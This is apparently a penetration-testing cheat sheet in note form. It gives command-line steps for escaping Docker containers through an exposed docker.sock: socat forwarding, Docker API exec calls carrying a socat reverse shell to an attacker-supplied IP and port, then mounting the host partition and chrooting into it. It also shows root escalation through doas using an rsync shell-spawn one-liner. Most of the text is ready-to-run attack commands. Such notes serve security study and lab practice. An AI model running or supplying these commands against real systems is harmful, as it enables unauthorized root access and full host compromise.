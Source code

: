 - If a docker container contains a `docker.sock` file,you can find it with `find / -name docker.sock 2</dev/null`

![image](https://github.com/user-attachments/assets/5bf2e2ef-f333-426b-9dbe-eb414b88e1d6)

- Make it accessible on the machine with socat

      socat TCP-LISTEN:[PORT],reuseaddr,fork UNIX-CLIENT:/var/run/docker.sock

   ### Getting a revshell as root on the container

   - List all containers to get their ids

          curl http://localhost:[port]/containers/json

   - Add the id to this link, replace cmd's value with your rev shell code

         curl http://localhost:8080/containers/[existing container's id]/exec -X POST -H  "Content-Type: application/json" -d '{"AttachStdin":false, "AttachStdout":true, "AttachStderr":true, "Tty":false, "Privileged":false, "Cmd":["socat","TCP:[ip]:[port]","EXEC:bash"]}'

  - Start the container with id from the output the command above

        curl http://localhost:8080/exec/<id>/start -X POST -H "Content-Type: application/json"  -d '{"Detach": false,"Tty": false}'

- Mounting host partition on docker

      mkdir /tmp/mnt
      mount /dev/<partition> /tmp/mnt
      chroot /tmp/mnt
      mount -t proc proc /proc # Mount /proc to allow access to hardware information and running processes

--------------------

### References:

- [Quarkslab](https://blog.quarkslab.com/why-is-exposing-the-docker-socket-a-really-bad-idea.html)
- [Dejandayoff](https://dejandayoff.com/the-danger-of-exposing-docker.sock/)

----------------------

### Privesc with doas 

- Doas allows execution of commands as another user
- Find `doas.conf` with

      find / -name "doas.conf" -type f 2</dev/null

![image](https://github.com/user-attachments/assets/cfc414f8-1003-4122-a731-66f8f096f89b)

- To execute commands,use

       doas -u <user> <command> <args>
       e.g doas -u root rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null

--------------------------
